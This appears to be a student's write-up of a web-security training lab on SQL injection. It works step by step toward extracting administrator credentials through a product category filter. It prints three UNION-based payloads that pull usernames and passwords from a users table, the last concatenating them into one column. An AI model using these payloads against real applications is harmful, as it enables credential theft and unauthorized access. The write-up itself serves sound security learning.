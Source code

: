# Eleventh Lab : SQL Injection

Lab - 11 : SQL injection UNION attack, retrieving multiple values in a single column

SQL Injection : product category filter

Endgoal : Logging in as administrator

Analysis : 

1. SQL Injectability → True 
2. Determining number of columns 
    
    No of columns found → 2
    
3. Retrieving Data
    
    ```
    Payload -> ' UNION SELECT username, password FROM users--
    ```
    
    Now in this lab, this payload does not work, because the sql returns only a single column. So we have to change the payload accrodingly. 
    
    ```
    Payload -> ' UNION SELECT username || '~' || password FROM users--
    ```
    
    This would be right if it took only one column, but here it is taking two so payload will be 
    
    ```
    Payload ->  ' UNION SELECT NULL, username || '~' || password FROM users--
    ```
    
    ![vmplayer_Cf453HhCCJ.png](Eleventh%20Lab%20SQL%20Injection%2021a3c5d54c7680949c9cd0dea7a1fc16/vmplayer_Cf453HhCCJ.png)
    

Damnnnnnnnnnnnnnnn